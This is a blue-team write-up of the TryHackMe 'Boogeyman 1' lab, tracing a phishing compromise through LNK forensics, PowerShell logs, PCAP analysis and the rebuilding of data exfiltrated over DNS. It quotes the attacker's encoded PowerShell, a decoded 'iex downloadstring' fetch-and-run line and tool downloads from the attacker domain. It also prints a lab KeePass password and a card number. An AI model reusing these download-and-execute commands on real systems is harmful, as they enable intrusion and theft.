






# Boogeyman 1 (TryHackMe SOC Level 1 Capstone Challenge)

_A full incident investigation involving phishing, payload reconstruction, PowerShell log analysis, C2 detection, DNS exfiltration, and PCAP reconstruction._

---

## Table of Contents

- [Project Summary](#project-summary)
- [Skills Demonstrated](#skills-demonstrated)
- [Investigation Process](#investigation-process)
  - [Stage 1: Initial Access (Phishing Email)](#stage-1-initial-access-phishing-email)
  - [Stage 2: Email Header Analysis](#stage-2-email-header-analysis)
  - [Stage 3: Attachment Extraction and Payload Recovery](#stage-3-attachment-extraction-and-payload-recovery)
  - [Stage 4: LNK Payload Analysis](#stage-4-lnk-payload-analysis)
  - [Stage 5: PowerShell Log Investigation](#stage-5-powershell-log-investigation)
  - [Stage 6: Endpoint Activity and Data Discovery](#stage-6-endpoint-activity-and-data-discovery)
  - [Stage 7: Network Traffic Analysis (PCAP)](#stage-7-network-traffic-analysis-pcap)
  - [Stage 8: DNS Exfiltration Reconstruction](#stage-8-dns-exfiltration-reconstruction)
- [Indicators of Compromise (IOCs)](#indicators-of-compromise-iocs)
- [MITRE ATT&CK Mapping](#mitre-attck-mapping)
- [Lessons Learned](#lessons-learned)
- [What I’d Improve Next Time](#what-id-improve-next-time)
- [References](#references)

---

## Project Summary

> **What is this project?**  
>
> I completed the TryHackMe **“Boogeyman 1”** SOC Level 1 Capstone Challenge.  
> This lab simulated a real-world phishing compromise against a finance employee (Julianne Westcott) at **Quick Logistics LLC**.
>
> The attack chain involved:
> - A phishing email containing an encrypted ZIP attachment
> - A malicious `.lnk` file triggering PowerShell execution
> - Payload retrieval from attacker-controlled infrastructure
> - System enumeration using Seatbelt
> - Collection of sensitive files (KeePass database)
> - Exfiltration over **DNS tunneling**
>
> I investigated the incident end-to-end using email artifacts, PowerShell logs, and packet captures.

---

## Skills Demonstrated

- Phishing email header analysis (EML review)
- ZIP decryption and malicious file identification
- LNK forensics using `lnkparse`
- PowerShell log analysis using `jq`, `grep`, and timeline correlation
- Identifying attacker infrastructure (payload server + C2)
- Detecting enumeration activity (Seatbelt)
- Investigating SQLite access to application data
- Network traffic analysis with Wireshark and tshark
- DNS tunneling detection and reconstruction of exfiltrated data
- Rebuilding stolen files from hex payload fragments
- Professional SOC-style documentation and reporting

---

## Investigation Process

### Stage 1: Initial Access (Phishing Email)

- **Problem:** Finance employee received a follow-up invoice email containing a malicious attachment.
- **Action:** Identified the phishing scenario and collected the provided artifacts:
  - `dump.eml`
  - `powershell.json`
  - `capture.pcapng`

---

### Stage 2: Email Header Analysis

- **Problem:** Determine sender, victim, and mail relay provider.
- **Action:** Opened the `.eml` file in Thunderbird and reviewed headers.
- **Findings:**
  - Sender: `agriffin@bpakcaging.xyz`
  - Victim: `julianne.westcott@hotmail.com`
  - Mail relay: **Elastic Email** (identified via DKIM + List-Unsubscribe headers)

---

### Stage 3: Attachment Extraction and Payload Recovery

- **Problem:** Extract the encrypted ZIP attachment embedded in the email.
- **Action:** Opened the phishing email in Thunderbird and manually saved the attachment (Invoice.zip) to the artefacts folder for analysis.
- **Result:** Confirmed the attachment was password-protected and required the password provided in the email body before extraction.

---

### Stage 4: LNK Payload Analysis

- **Problem:** Identify the malicious file and its behavior.
- **Action:** Unzipped the attachment and discovered the embedded LNK file:
  ```bash
  unzip Invoice.zip
  ```

- **Finding:**
  - File inside archive: `Invoice_20230103.lnk`
  - ZIP password: `Invoice2023!`

- **Action:** Used `lnkparse` to inspect the LNK command line arguments:
  ```bash
  lnkparse Invoice_20230103.lnk
  ```

- **Result:** Extracted the encoded PowerShell command:
  ```
  aQBlAHgAIAAoAG4AZQB3AC0AbwBiAGoAZQBjAHQAIABuAGUAdAAuAHcAZQBiAGMAbABpAGUAbgB0ACkALgBkAG8AdwBuAGwAbwBhAGQAcwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AZgBpAGwAZQBzAC4AYgBwAGEAawBjAGEAZwBpAG4AZwAuAHgAeQB6AC8AdQBwAGQAYQB0AGUAJwApAA
  ```

- Payload retrieval:
    ```powershell
    iex (new-object net.webclient).downloadstring('http://files.bpakcaging.xyz/update')
    ```
---

### Stage 5: PowerShell Log Investigation

- **Problem:** Determine attacker actions post-compromise.
- **Action:** Parsed `powershell.json` using `jq` and extracted ScriptBlock activity.
  ```bash
  cat powershell.json | jq -s -c 'sort_by(.Timestamp) | .[]'| jq '{ScriptBlockText}'| sort | uniq
  ```

- **Key Findings:**
  
  - Enumeration tool download:
    ```powershell
    iwr http://files.bpakcaging.xyz/sb.exe -outfile sb.exe
    ```
  - Tool identified: **Seatbelt**
  - SQLite tool download:
    ```powershell
    iwr http://files.bpakcaging.xyz/sq3.exe -outfile sq3.exe
    ```

---

### Stage 6: Endpoint Activity and Data Discovery

- **Problem:** Identify what sensitive data the attacker accessed.
- **Finding:** Attacker accessed Microsoft Sticky Notes SQLite database:
  ```powershell
  .\Music\sq3.exe AppData\Local\Packages\Microsoft.MicrosoftStickyNotes_8wekyb3d8bbwe\LocalState\plum.sqlite "SELECT * from NOTE limit 100"
  ```

- **Full file path extracted:**
  ```
  C:\Users\j.westcott\AppData\Local\Packages\Microsoft.MicrosoftStickyNotes_8wekyb3d8bbwe\LocalState\plum.sqlite
  ```

- **Sensitive file discovered:**
  ```powershell
  $file='C:\Users\j.westcott\Documents\protected_data.kdbx'
  $bytes = [System.IO.File]::ReadAllBytes($file)
  ```

- **Result:** Identified KeePass database file:
  - `protected_data.kdbx`

---

### Stage 7: Network Traffic Analysis (PCAP)

- **Problem:** Confirm attacker infrastructure and method of communication.
- **Action:** Opened `capture.pcapng` in Wireshark.

- **Payload hosting server response header:**
  ```
  Server: SimpleHTTP/0.6 Python/3.10.7
  ```

- **Result:** Payload hosting was done via **Python SimpleHTTPServer**.

- **C2 traffic discovered:**
  - Domain: `cdn.bpakcaging.xyz:8080`
  - Output method: HTTP **POST**

---

### Stage 8: DNS Exfiltration Reconstruction

To recover the exfiltrated KeePass database password, I first searched the packet capture for traffic related to `sq3.exe`:

```wireshark
http contains "sq3.exe"
```

This led to a relevant TCP conversation. I used **Follow → TCP Stream** and reviewed **stream 749**.  
To view the next step in the attacker workflow (the data returned back), I switched to the next stream (**750**).

In **stream 750**, I identified an HTTP **POST** request containing an encoded payload. I extracted the payload and decoded it with **CyberChef**, which revealed the KeePass master password:

```
%p9^3!lL^Mz47E2GaT^y
```

Next, to reconstruct the exfiltrated KeePass database from DNS tunneling traffic, I extracted the DNS query names and rebuilt the file using this command:

```bash
tshark -r capture.pcapng -Y "ip.dst==167.71.211.113 and dns" -T fields -e dns.qry.name | grep -E '[A-F0-9]+.bpakcaging.xyz$' | cut -d '.' -f1 | tr -d '\n' | xxd -p -r > protected_data.kdbx
```

Finally, I opened `protected_data.kdbx` in **KeePass** using the recovered master password to confirm the file was successfully reconstructed.


  Credit card number stored inside the KeePass database:
  ```
  4024007128269551
  ```
  

  
---

## Indicators of Compromise (IOCs)

### Domains
- `bpakcaging.xyz`
- `files.bpakcaging.xyz`
- `cdn.bpakcaging.xyz`

### IP Addresses
- `167.71.211.113`

### Files
- `Invoice.zip`
- `Invoice_20230103.lnk`
- `sb.exe` (Seatbelt)
- `sq3.exe`
- `plum.sqlite`
- `protected_data.kdbx`

### Email Addresses
- `agriffin@bpakcaging.xyz`
- `julianne.westcott@hotmail.com`

---

## MITRE ATT&CK (High-Level Mapping)

> This section uses MITRE ATT&CK at a **conceptual level** to categorize attacker behavior observed during the investigation.  
> Technique IDs are not memorized; instead, the focus is on **what the attacker did** and **why it matters for detection and response**.

- **Initial Access – Phishing**  
  The attacker gained initial access by sending a phishing email with a malicious, password-protected ZIP attachment.

- **Execution – PowerShell**  
  A malicious LNK file executed PowerShell commands to download and run attacker-controlled code.

- **Command and Control – Web Traffic**  
  The compromised host communicated with attacker infrastructure over HTTP, using GET requests for commands and POST requests to return output.

- **Discovery – System and Application Enumeration**  
  Enumeration was performed using the Seatbelt tool, and application data was accessed via a SQLite database query.

- **Collection – Sensitive Data from Local System**  
  A KeePass password database (`protected_data.kdbx`) was identified and read from disk.

- **Exfiltration – DNS Tunneling**  
  Stolen data was encoded and exfiltrated using DNS queries with long subdomain strings.

This high-level mapping helps standardize incident reporting and highlights detection opportunities without relying on memorization of specific ATT&CK IDs.

---

## Lessons Learned

- Phishing emails may use legitimate-looking invoice themes and password-protected ZIPs to bypass email security.
- `.lnk` files are frequently abused as an initial execution method.
- PowerShell logs provide a full attack timeline when ScriptBlock logging is enabled.
- Enumeration tools such as Seatbelt are common in post-exploitation activity.
- DNS tunneling can be detected by abnormal query volume and long subdomain strings.
- PCAP analysis can validate host-based findings and help reconstruct stolen data.

---

## What I’d Improve Next Time

- Automate extraction of DNS query subdomains for faster reconstruction of stolen files.
- Investigate persistence indicators (scheduled tasks, registry keys) if additional logs were available.
- Build Suricata rules to detect long DNS queries consistent with tunneling.

---

## References

- [TryHackMe Boogeyman 1 Room](https://tryhackme.com/room/boogeyman1)
- [MITRE ATT&CK Framework](https://attack.mitre.org/)
- [Wireshark](https://www.wireshark.org/)
- [Azure](https://mha.azurewebsites.net/)
